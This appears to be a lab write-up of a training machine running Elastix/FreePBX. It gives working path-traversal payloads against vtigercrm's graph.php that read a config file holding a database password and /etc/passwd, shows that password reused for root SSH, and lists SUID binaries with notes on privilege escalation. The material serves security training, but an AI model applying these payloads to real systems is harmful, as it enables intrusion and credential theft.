 We have a login page hosted on the default web page
Its running some kind of service named Elastix
Our first step should be to enumerate this web directory

I've found a few interesting things: 
```bash
/mail    (Status: 301) [Size: 316] [--> https://10.129.229.183/mail/]
/admin   (Status: 301) [Size: 317] [--> https://10.129.229.183/admin/]
/configs (Status: 301) [Size: 319] [--> https://10.129.229.183/configs/]
```

We have a login page for `/mail` and `/admin`

```
https://10.129.229.183/admin/config.php
```

In failing to login we are sent to `/admin/config.php` and we find some version info for `FreePBX version 2.8.1.4`

```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

```
AMPDBPASS=jEhdIekWmdjE
```

```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```

```
https://10.129.42.168/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action

view-source:https://10.129.42.168/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action
```

```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 fanis@10.129.14.86
```

```
ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 \
    -oHostKeyAlgorithms=+ssh-rsa \
    root@10.129.14.86

password: jEhdIekWmdjE
```

```
[root@beep ~]# whoami
root
```

```
[root@beep fanis]# cat user.txt 
1bdf5ba85c5eaf83b86cf0413ce21bdd
```

```
[root@beep ~]# cat root.txt 
c028dae6e9912565f145fc9776e3990f
```

---

# SUID's and PATH Hijacking 

```php
find / -perm -4000 -type f 2>/dev/null

/usr/bin/sperl5.8.8
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/at
/usr/bin/chage
/usr/bin/sudoedit
/usr/bin/chfn
/usr/bin/newgrp

/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/libexec/mc/cons.saver
/usr/libexec/openssh/ssh-keysign
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/kerberos/bin/ksu
/bin/mount
/bin/umount
/bin/su
/bin/ping
/bin/ping6
/lib/dbus-1/dbus-daemon-launch-helper
/sbin/pam_timestamp_check
/sbin/mount.nfs
/sbin/umount.nfs
/sbin/umount.nfs4
/sbin/mount.nfs4
/sbin/unix_chkpwd
```

A list of SUID binaries on beep
https://gtfobins.github.io/#cronta
Check what is vulnerable

```php
sudo -l

sudo -l
Matching Defaults entries for notdrew1 on htb-e0ligctgs4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/root/.local/bin

User notdrew1 may run the following commands on htb-e0ligctgs4:
    (ALL) NOPASSWD: ALL
```

```php
[root@beep fanis]# env -i /usr/bin/passwd
Changing password for user root.
New UNIX password: 
BAD PASSWORD: it is WAY too short
Retype new UNIX password: 
passwd: all authentication tokens updated successfully.
```

changed the root users password

```php
find / -type f -writable -exec ls -l {} \; 2>/dev/null | grep cron
```

No writable cron files were found on the machine

```php
crontab -l
no crontab for root
```

Let's create a fake binary

